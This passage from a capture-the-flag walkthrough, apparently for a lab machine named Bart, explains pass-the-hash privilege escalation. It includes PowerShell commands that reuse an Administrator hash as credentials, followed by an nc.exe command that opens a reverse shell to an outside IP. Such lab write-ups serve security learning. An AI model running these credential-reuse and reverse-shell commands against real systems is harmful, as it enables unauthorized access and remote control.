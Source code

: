 We don't even need to bruteforce the hash, we can use it as if it was the clear-text password. Why? Well here's a quote from an article that will explain it better then I could:
>"Pass the hash (PtH) is an attack technique that is both extremely simple and dangerous when left unmitigated. An attacker does not need to crack a complex password in order to successfully execute an attack, it only needs to resend the password hash obtained elsewhere without cracking the password itself. Any system that only requires a password hash for authentication gives an attacker with the hashed password the same power as if they had the cleartext passwords." Source https://cccsecuritycenter.org/remediation/pass-the-hash

We can now do the same thing we did earlier to get a shell as `h.potter`:
```
C:\inetpub\wwwroot\internal-01\log> powershell.exe
PS C:\inetpub\wwwroot\internal-01\log> $username = 'BART\Administrator'
PS C:\inetpub\wwwroot\internal-01\log> $securePassword = ConvertTo-SecureString -AsPlainText -Force '3130438f31186fbaf962f407711faddb'
PS C:\inetpub\wwwroot\internal-01\log> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS C:\inetpub\wwwroot\internal-01\log> Enter-PSSession -ComputerName localhost -Credential $credential

[localhost]: PS C:\Users\Administrator\Documents> cmd.exe /c "C:\inetpub\wwwroot\internal-01\log\nc.exe 10.10.14.21 3333 -e cmd.exe"
```

Make sure to have nc up before running the last command in the above text:
![Image](/assets/bart/029.png)
![Image](/assets/bart/030.png)


[localhost]: PS C:\Users\h.potter\Documents> whoami